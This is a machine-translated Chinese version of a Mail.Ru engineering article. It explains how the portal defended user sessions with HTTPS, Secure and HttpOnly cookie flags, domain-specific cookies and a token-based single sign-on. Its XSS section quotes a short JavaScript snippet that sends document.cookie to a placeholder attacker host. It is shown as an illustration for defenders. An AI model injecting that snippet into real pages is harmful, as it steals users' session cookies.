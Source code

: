 # 分而治之:我们如何在邮件中实现会话分离。Ru 门户

> 原文：<https://medium.com/hackernoon/divide-and-govern-how-we-implemented-session-separation-at-mail-ru-portal-ea5619ed12ef>

![](img/c3ba07cf5c68e1d951276e3b2f0253ba.png)

在 **开头……**

邮件。Ru 是一个巨大的门户网站，创建于 15 年前。从那时起，我们已经从一个小的网络项目发展成为访问量最大的 Runet 网站。门户包含大量的服务，每个服务都有自己的故事和独立的开发团队，他们必须尽最大努力确保所有项目(新的、旧的和随着门户的发展而加入的项目)共享一个用户认证系统。多年后，我们最终面临一个几乎相反的任务:独立的用户会话。为什么这是必要的，什么障碍绊倒了我们，我们如何绕过他们将在这篇文章中讨论。

如果我们回到过去，我们所有的服务都是一个二级域的一部分，并被分成三级域，那么引入通用授权似乎是一个微不足道的问题。为了完成这项任务，我们简单地选择了经典的(当时的)方法:我们引入了一个在所有可用资源之间共享的单一身份验证表单，在二级域上设置一个身份验证 cookie，并开始在服务器端验证传输的 cookie。美观、简洁、实用:

*Set-Cookie:Mpop = 1406885629:FBD 9 c 78 CDB 2c 08634 e 0977 fa 1 b 9 e 6 c 6 c:user @ mail . ru:；domain=.mail.ru* 然而，时代在变…

师师**何敌不眠**

![](img/497b0249e7b56c0acdcf9d7f21f74f71.png)

随着我们公司的成长，用户账户成了各种不法分子渴望的猎物。先来的只是用蛮力。这些入侵者什么也没做，只是强行输入用户密码，搜索那些记得自己出生日期或宠物名字的人。

不久之后，网络钓鱼者紧随其后，向门户网站用户发送与他们从 Mail.Ru 收到的电子邮件类似的电子邮件。这些邮件中要么包含伪装成门户网站身份验证点的站点链接，要么使用其他方法从用户处骗取密码。

![](img/ff873c26b0013e0fdab51caacdaab9fd.png)

**我们也不睡觉**

为了打击网络钓鱼者和暴力破解者，反垃圾邮件和安全团队被召集起来采取行动。技术和用户教育最终取得了成果，安全漏洞大大减少。(尽管弱密码和人类的易受骗性是我们今天谈论的帮助黑客的主要因素——但那是另一篇文章了，伙计们。过了一会儿，这项业务开始真正赚钱，鲨鱼也加入了这个小圈子，他们中的一些人寻找网络服务中的漏洞，并利用这些漏洞获取用户账户。雪上加霜的是，他们还找到了监听用户电脑和我们服务之间流量的方法。所有这些非法活动的目标都是用户认证会话——换句话说，就是门户的认证 cookie。

**HTTPS 一直是 HTTPS 吗？**

我们将对用户数据安全至关重要的服务，例如邮件或云，隐藏在 [HTTPS](https://hackernoon.com/tagged/https) 之后。当时，使用安全的 HTTPS 连接协议似乎是我们问题的解决方案。通过这种连接传输的数据经过加密和签名，因此第三方无法读取或更改它们。

![](img/f030cc319187f4717719660e29c169d8.png)

Plaintext transmission

但是，如果位于服务器和浏览器之间的黑客通过不安全的协议强迫用户的浏览器访问门户网站，会发生什么呢？要做到这一点，只需拦截以非加密形式发送给用户的任何 HTTP 响应，并向其中添加一个带有正确地址的图像:

![](img/d9468a8d2f42752f3ea6a32dcc939496.png)

HTTPS stripping attack

黑客因此迫使用户的浏览器通过不安全的连接访问门户。如图所示，session_id cookie 通过非加密连接自动发送到门户服务器，毫无疑问，黑客很容易就能拦截它。之后，他们可以像知道实际密码一样轻松地使用该帐户。为了防止这种情况，服务器可以将 cookie 标记为安全的。它会通知浏览器，只有当连接使用 HTTPS 协议时，cookie 才应该发送到服务器。cookie 标记如下:

*HTTP/1.1 200 OK
Content-type:text/html
Set-Cookie:session _ id = c 9 AAF 792 b 29 AFC 98 fc 12 CD 613 e 5330 b 6；安全*

这是在服务器上配置 HTTPS 时需要考虑的重要一点:为认证 cookies 设置安全标志对于现代 web 服务来说是绝对必要的。如果你有一个大的门户网站，那就更是如此。如果存在集中式身份验证，那么对门户域中的服务使用 HTTP 为任何试图绕过 HTTPS 的人开了绿灯。然而，即使一切都在 HTTPS 之后，并能抵御流量拦截，仍然存在利用 web 服务漏洞的风险，例如 XSS。这迫使公司要么完全放弃通用认证，要么选择另一种方式(我们将在后面讨论)。

另一个对 HTTPS 剥离攻击的保护是 HSTS 与 HSTS 预载，它要求所有子域支持 HTTPS，这是一个不同的故事。

X

根据俄罗斯维基百科文章的翻译，“跨站脚本(或 XSS)可能被用于绕过访问控制或窃取用户凭证等”。当攻击者利用 XSS 漏洞时，在大多数情况下，身份验证 cookie 是他们想要的，他们可以用它来访问用户的帐户。为了劫持用户会话，黑客通常使用类似于以下代码的 JS 代码:

***var****іmg =****new****image()；*

іmg.src = ' http://hacker . site/XSS-sniffer . PHP？'+document . cookie；

![](img/6e5fa18bc4669adeea42ccac41427f88.png)

毫无疑问，处理 XSS 错误的最重要和最有效的方法是通过测试、开发人员培训、代码审查和安全审计来防止错误的产生。然而，当有许多项目由不同的人员配备良好的团队工作时，不可能有绝对无错的代码。我们的主要目标是保护用户账户；我们必须确保它们是安全的，不管系统是否有 XSS 漏洞，或者是否有人试图利用它们。HttpOnly cookies 来拯救我们了。HttpOnly cookies 不可能用 JavaScript 读取，但是它们仍然可以像任何其他 cookie 一样被服务器脚本访问。尽管事实上这种技术并不新颖(例如微软在 8 年前在 IE6 SP1 推出了 HttpOnly cookies)，但并不是每个人都知道为什么尽可能使用它们是值得的。JS 无法访问的 cookie 是计划 XSS 攻击的邪恶分子的第二道防线，因为在页面上偷偷摸摸的恶意代码将无法使用 document.cookie 窃取用户 cookie。此外，在 cookie 中使用 HttpOnly 标志有助于保护用户帐户免受不受信任的脚本、横幅或计数器的影响，这些脚本、横幅或计数器可能会从公司无法控制的资源中加载。

天底下没有十全十美的事情，HttpOnly cookies 也不是万灵药:HttpOnly 标志并不能提供对 XSS 漏洞的完全保护。但是，它不允许 JS 代码劫持身份验证会话，从而极大地缩小了其被利用的可能性。但是也有不能用的情况。例如，当闪光灯被频繁使用时。然而，这还不足以成为完全放弃 HttpOnly cookies 的理由。您可以通过结合使用这两种类型的 cookies 并尽可能只使用 HttpOnly 来将风险降至最低。现在我们已经为 cookies 添加了 Secure 和 HttpOnly 标志——还需要做什么呢？

D特定于域的 cookie

![](img/73c9e0d5a9e284d617b365296a943628.png)

您可能还记得，为了确保我们公司所有服务的端到端身份验证，我们过去在二级域中使用单一身份验证 cookie 集。一个通用的身份验证 cookie 不仅仅是方便用户；这也是一种通过公司任何项目代码中的一个漏洞就能同时访问所有服务的方法。因此，通过从*a-site-with-common-authentication.example.com*服务中窃取认证 cookie，我们获得了对【b-site-with-common-authentication.example.com】T2 的访问权。

流量嗅探的工作方式类似，除非使用安全 cookies。如果一个公司的服务是安全的，并且使用 HTTPS，而另一个使用 HTTP，那么您所要做的就是指示浏览器调用不太安全的服务，窃取身份验证 cookie，并将其用于安全服务中的身份验证。

现在为了解决这个问题，添加了带有*域*属性的 Cookie:

*HTTP/1.1 200 OK
Content-type:text/html
Set-Cookie:session _ id = c 9 AAF 792 b 29 AFC 98 fc 12 CD 613 e 5330 b 6；domain = a . example . com；安全*

浏览器现在将仅发送此 cookie 来响应对 a.company.com 域及其子域的查询。当使用特定于域的 cookies 时，如果任何一个服务有漏洞，它将是唯一受到攻击的服务。对于 XSS 和其他漏洞来说都是如此。

W说唱起来

因此，我们将最关键的服务转移到了 HTTPS，引入了特定领域的 cookies，搜索并消除了漏洞，并试图从各个角度保护我们自己和我们的用户。但是，如果仍然提供单一身份验证呢？为了在 HTTP 和 HTTPS 共存的多样化环境中做到这一点，我们引入了额外的特定于域的 cookies 作为每个项目的额外安全措施。除了遗留的主身份验证 cookie (Mpop)之外，还为项目的域设置了一个附加的 cookie (sdc)。只有当两个 cookie(Mpop 和域内 sdc cookie)都存在时，用户身份验证才有效。

![](img/2d714a101e33c5f190a28feb0a47640e.png)

SDC (Secure Domain Cookie) authentication process on project page

邮件中的会话分离机制。Ru 的工作方式如下:用户身份验证总是通过单点登录 auth.mail.ru 进行，它需要一个登录名和密码(可能还有第二个因素),并发出一个带有安全和 HttpOnly 标志的域 cookie .auth.mail.ru。没有一个项目可以访问用户的登录名和密码。任何项目都无法使用. auth.mail.ru cookie。

当用户访问他尚未登录的项目站点时，他的请求将被转发到认证点，认证点通过. auth.mail.ru cookie 对他进行认证，生成一次性令牌并使用该令牌重定向到项目的监听器页面。项目的侦听器将令牌代理到身份验证点，身份验证点使用令牌生成项目 cookie，这一次是针对. project.mail.ru。这样，您就保留了门户单一身份验证的所有优势，并以对用户透明的方式提供了对不同资源的单独身份验证访问。
访问分离使我们能够以更一致的方式保护我们的资源，而不仅仅依赖于“外部电路”——即使攻击者设法劫持其中一个资源上的会话或以其他方式破坏它，用户遭受的损害也将是最小的。除了单独的会话，还有其他对用户不可见的单独访问技术(这很酷！).但是我们将在另一篇文章中讨论这个问题。

总的来说，我们可以得出结论，即使是联合在一个公共平台上的服务也必须(在引擎盖下)分道扬镳，我们目前正在自己的门户上应用这种方法。我们确信，俄罗斯的其他公司很快也会效仿，相当一部分网络犯罪分子会发现自己突然失业了。

敌人不得通过！

*   **本文原载* [*于 2014 年 8 月 04 日俄文版*](https://habrahabr.ru/company/mailru/blog/228997/) *。*